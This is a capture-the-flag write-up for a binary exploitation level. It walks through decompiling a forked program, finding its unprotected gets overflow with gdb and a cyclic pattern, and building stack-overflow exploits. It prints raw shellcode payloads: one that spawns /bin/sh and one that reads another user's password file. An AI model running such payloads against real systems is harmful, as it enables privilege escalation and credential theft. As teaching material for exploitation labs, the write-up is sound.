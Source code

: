 ### step 1: Decompile with Ghidra

We get the c source code of the program  

### step 2: Code analysis

- We find only a `main` function 
- In this function we find a vulnerable `gets` function which is not protected and that we will overflow.
- We don't find any `system` function calls so we plan to use a shellcode
- Finally we have a child process launched and it is in this process that the `gets` function is called

### step 3 : find the overflow 

Important:  
Since we have a parent and a child process we use the gdb command  `set follow-fork-mode child` to set gdb in `follow-child` mode  

- We check that we can overflow the EIP in the child process by feeding a lot of `a` characters, then check the EIP value with the command `info frame` at a breakpoint just after the `gets` call => it is filled with 61616161 corresponding to our `a` char  

```
(gdb) r
Starting program: /home/users/level04/level04 
[New process 2171]
Give me some shellcode, k
aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa
[Switching to process 2171]

Breakpoint 1, 0x08048763 in main ()
(gdb) info frame
Stack level 0, frame at 0xffffd6f0:
 eip = 0x8048763 in main; saved eip 0x61616161
 Arglist at 0xffffd6e8, args: 
 Locals at 0xffffd6e8, Previous frame's sp is 0xffffd6f0
 Saved registers:
  ebx at 0xffffd6e0, ebp at 0xffffd6e8, edi at 0xffffd6e4, eip at 0xffffd6ec
```

- In order to find the precise Offset we will use a generated string provided by an online generator : https://projects.jason-rush.com/tools/buffer-overflow-eip-offset-string-generator/ 

- Offset String : `Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2Ad3Ad4Ad5Ad6Ad7Ad8Ad9Ae0Ae1Ae2Ae3Ae4Ae5Ae6Ae7Ae8Ae9Af0Af1Af2Af3Af4Af5Af6Af7Af8Af9Ag0Ag1Ag2Ag3Ag4Ag5Ag`

```
gdb level04
set follow-fork-mode child
b *0x08048763
r
Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2Ad3Ad4Ad5Ad6Ad7Ad8Ad9Ae0Ae1Ae2Ae3Ae4Ae5Ae6Ae7Ae8Ae9Af0Af1Af2Af3Af4Af5Af6Af7Af8Af9Ag0Ag1Ag2Ag3Ag4Ag5Ag
info frame
Stack level 0, frame at 0xffffd6f0:
 eip = 0x8048763 in main; saved eip 0x41326641
 Arglist at 0xffffd6e8, args: 
 Locals at 0xffffd6e8, Previous frame's sp is 0xffffd6f0
 Saved registers:
  ebx at 0xffffd6e0, ebp at 0xffffd6e8, edi at 0xffffd6e4, eip at 0xffffd6ec
```

- We get the offset by providing our overwritten EIP `0x41326641` to the generator : 

=> We find the Offset : `156` We find that the overflow is at the 156th character


### step 4 : setup the exploit

Since we now the overflow position we setup our usual shellcode :

( python -c 'print("A" * 156 + "\xae\xde\xff\xff")' ; cat ) | env -i SHELLCODE=$(python -c 'print("\x90" * 512 + "\xeb\x1f\x5e\x89\x76\x08\x31\xc0\x88\x46\x07\x89\x46\x0c\xb0\x0b\x89\xf3\x8d\x4e\x08\x8d\x56\x0c\xcd\x80\x31\xdb\x89\xd8\x40\xcd\x80\xe8\xdc\xff\xff\xff/bin/sh")') ./level04

However this exploit does not work because doesn't work because it switches to the parent process. Even if a shell is launched, we can't access it because the fork leads us to the parent process.

### step 5 : Use a cat shellcode for the final exploit 

D'habitude on utilise le shellcode pour lancer un bash,
Usually we use a sellcode which launches a shell. This time we will use a `cat` shellcode.

Here is a register with many shellcodes for many functions and architectures : https://shell-storm.org/shellcode/index.html

The cat shellcode which we will use : https://shell-storm.org/shellcode/files/shellcode-73.html

We add at the end of this shellcode the pass path and then we have the final exploit which will print us the .pass file :
```
( python -c 'print("A" * 156 + "\xae\xde\xff\xff")' ) | env -i SHELLCODE=$(python -c 'print("\x90" * 512 +  "\x31\xc0\x31\xdb\x31\xc9\x31\xd2\xeb\x32\x5b\xb0\x05\x31\xc9\xcd\x80\x89\xc6\xeb\x06\xb0\x01\x31\xdb\xcd\x80\x89\xf3\xb0\x03\x83\xec\x01\x8d\x0c\x24\xb2\x01\xcd\x80\x31\xdb\x39\xc3\x74\xe6\xb0\x04\xb3\x01\xb2\x01\xcd\x80\x83\xc4\x01\xeb\xdf\xe8\xc9\xff\xff\xff/home/users/level05/.pass")') ./level04
```


